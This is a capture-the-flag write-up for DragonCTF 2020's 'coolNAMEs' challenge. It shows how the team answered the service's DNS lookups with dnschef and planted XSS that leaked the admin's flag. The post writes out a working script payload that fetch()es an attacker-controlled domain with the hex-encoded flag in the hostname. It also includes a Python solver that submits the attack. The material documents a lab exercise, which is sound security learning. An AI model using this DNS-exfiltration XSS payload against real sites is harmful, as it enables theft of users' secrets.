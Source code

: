 ```yaml
---
layout: post
title: "[dragoonctf] coolNAMEs (19 solves)"
author: Filip Kilibarda
---
```


# coolNAMEs

Challenge front page: 

![](/assets/images/dragonctf2020/coolnames/frontpage.gif)

You had to give it an IP address and then it called the function `make_query`.

I didn't know much about what `make_query` did at this point except that it was probably a DNS lookup of some sort (hint: port 53, coolNAMEs, etc.).

Running `make_query` on 127.0.0.1 resulted in the page just hanging. I guess because there was no DNS server listening on localhost of the server.

Running with `8.8.8.8` (one of Google's DNS server's), we got

![](/assets/images/dragonctf2020/coolnames/queryresult.png)

Ok so apparenty there was no query result... I had no idea what they were querying for. Also the note about the flag... wasn't sure what to think of this at the time.

Next step was to figure out what kind of DNS query they were sending. For that, I needed to run a DNS server on a public IP and tell them to query my server. 

I still had some free credits on Vultr (*I wish they were paying me to say this*), so I started an instance with a public ipv4 address.

On the instance I ran a simple `nc` command to listen on the public ip port 53, then submitted my ip to the web form.

![](/assets/images/dragonctf2020/coolnames/nclisten.png)

Obviously this was a DNS request, but I couldn't tell what exactly it was requesting beyond maybe `5bt5f.7i` for the domain name. 

`sudo tcpdump -i ens3 -w tcpdump.pcap` + wireshark

![](/assets/images/dragonctf2020/coolnames/wireshark.png)

When I ran it again, the requested domain name this time was `f357c.3f` and thanks to wireshark, I could see that it was a CNAME record request.

Each time I ran it, it requested a different domain name. The names were being generated randomly, so obviously they weren't real registered domain names.

I wanted to see what would happen if their DNS request actually got a result back, but first:

<!-- <pic?> -->

# XSS

Something I didn't put much thought into initially was this:

![](/assets/images/dragonctf2020/coolnames/reportadmin.png)

Jamvie and Robert (who are much more experienced with web stuff), connected the dots between that and this

![](/assets/images/dragonctf2020/coolnames/theflagis.png)

So this clearly meant that the admin user was going to come view the results if the box was checked. And since only the admin could see the flag, this meant that we needed to force the admin to send it to us when they viewed the page (XSS).

# DNS Server

Now I wanted to investigate what would happen if our server actually returned a valid response for their DNS request.

Robert recommended the tool [dnschef](https://github.com/iphelix/dnschef), which just made this so easy. dnschef acts as a man in the middle for all DNS requests, forwarding requests to a real DNS server, e.g., `8.8.8.8`, then for certain chosen domains, it can fake DNS records completely.

Meaning if someone queries my DNS server for `5bt5f.7i`, dnschef could be trivially programed to return arbitrary IP addresses for the request.

A quick test to see what would happen if I made dnschef return `HelloWorld` for all CNAME requests:

![](/assets/images/dragonctf2020/coolnames/dnschefouthelloworld.png)

and the output

![](/assets/images/dragonctf2020/coolnames/helloworldoutput.png)

Instead of `HelloWorld`, we just had to put something in there, like `<script>...</script>` that would cause the admin to execute our javascript in their browser context and leak the flag. However, because of this

![](/assets/images/dragonctf2020/coolnames/remarks.png)

we had to leak the flag out with only DNS requests. However, unlike the first time around, where we got to specify the IP address of the DNS server, this time we couldn't do that and we had to actually get the public DNS system to route a DNS request from the admin's browser to our dnschef server, where we could then retreive the flag from the request.

First, we needed to construct a DNS query that would leak the flag. We did that with essentially this `fetch(http:// + getflagfromadminsHTML().hexencode() + .cd481af3fd77.us.to)` or

`<script>fetch("http://"+document.getElementById('flag').innerText.replaceAll(/./g,(m)=>m.charCodeAt(0).toString(16)).slice(35,90)+'zz'+Math.floor(Math.random()*Math.floor(10000))+".cd481af3fd77.us.to");</script>`{:.nowrap2}

So when the admin would log in and view the site, they would end up executing a fetch to a domain name that had the flag inside it, and we would receive the request at our server.

But again, for this to work we needed the public DNS system to route a DNS request to our dnschef server. For that we had to actually get our dnschef server published on an existing public DNS server.

# Registering our dnschef server

Robert was pretty familiar with this and he actually knew of a website [freedns.afraid.org/](https://freedns.afraid.org/) that would let him register our dnschef server on a public DNS server that handled `us.to.` domains **FOR FREE**. We like free things. The site seems a little sketch though. It causes my CPU to run on high for some reason.

There were two things he needed to do:

1. Register an NS record for our dnschef server
2. Register an A record for our dnschef server (`155.138.221.247`)

Robert chose `cd481af3fd77.us.to.` (*random*) as the domain that our dnschef server should receive requests for.

He gave our dnschef server the domain name `nneonneo-yxe.us.to.`.

Then he made the A record for `nneonneo-yxe.us.to.` = `155.138.221.247`, the IP of the dnschef server.

So now when I sent a DNS request for `cd481af3fd77.us.to.` to `8.8.8.8` (Google), it would do this:

![](/assets/images/dragonctf2020/coolnames/dnslookup.png)

![](/assets/images/dragonctf2020/coolnames/dnslifecycle.png)

Notice at the end it sent the request to our dnschef `155.138.221.247`

![a](/assets/images/dragonctf2020/coolnames/nsrecord.png)

So everything under the `cd481af3fd77.us.to` domain was being handled by the `nneonneo-yxe.us.to` DNS server, which had an IP address of `155.138.221.247` (our dnschef server).

# Retreiving the flag

```
from pwn import *
import requests
import re
from hashlib import sha1
import sys

URL = "http://reverse-lookup.hackable.software/"
r = requests.get(URL)
r = r.text

m = re.search(r"value=\"(.*?)\"", r)
nonce = m.group(1).encode("ascii")

def crack(nonce):
    for _ in range(2**30):
        pow = randoms(20).encode("ascii")
        guess = sha1(nonce + pow).hexdigest()
        if "313377" in guess:
            print(f"Got it: {pow}")
            return pow
    else:
        print("Didn't get it")
        sys.exit(1)

pow = crack(nonce)

nonce = nonce.decode("ascii")
pow = pow.decode("ascii")
ip = "155.138.221.247"

data={"nonce":nonce, "pow": pow, "srv": ip, "for_admin": "on"}
print(data)
r = requests.post(f"{URL}/query?", data=data)
```

![](/assets/images/dragonctf2020/coolnames/flag.png)

And the flag was hex encoded in the DNS request!

`537b4d7573744c7575757576444e535f646f6e7459617d ~= DrgnS{MustLuuuuvDNS_dontYa}`